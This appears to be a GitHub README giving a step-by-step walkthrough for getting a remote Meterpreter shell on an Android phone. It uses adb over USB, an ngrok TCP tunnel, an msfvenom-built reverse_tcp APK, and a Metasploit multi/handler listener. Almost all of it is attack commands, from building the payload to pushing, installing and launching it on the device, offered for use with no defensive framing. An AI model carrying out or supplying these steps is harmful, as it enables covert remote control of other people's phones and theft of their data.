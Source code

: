 # adb-phone-shell
How to get phone shell with msfvenom using USB connection with adb shell

# Getting shell
// First you gotta connect the phone with USB and then in developer options enable the USB-Debugging. You can access to developer options by pressing the version number of your phone 7 times.
adb devices
![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/4e6dfc00-871f-4f07-90c3-0b94630e64fb)

adb shell
![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/6db92d1c-3466-4448-8d37-7564bc6d398e)

# Opening listener port and creating the payload

ngrok tcp 1234
![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/6b2dc2e8-833a-493d-b5ff-c313f816892a)

msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -o payload.apk
![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/414ec97d-2df1-4651-9691-79ac6b9cb96f)

# Checking on multi handler

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 1234
run
![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/980a5acb-e7f6-4b04-9599-e2809625e793)

# Pusing payload to the phone and downloading

adb push payload.apk /sdcard/
adb install payload.apk
adb shell am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
![image](https://github.com/watashiwaspr/adb-phone-shell/assets/82729808/49b7d166-7cfd-4bb2-982a-60cbb50712c8)

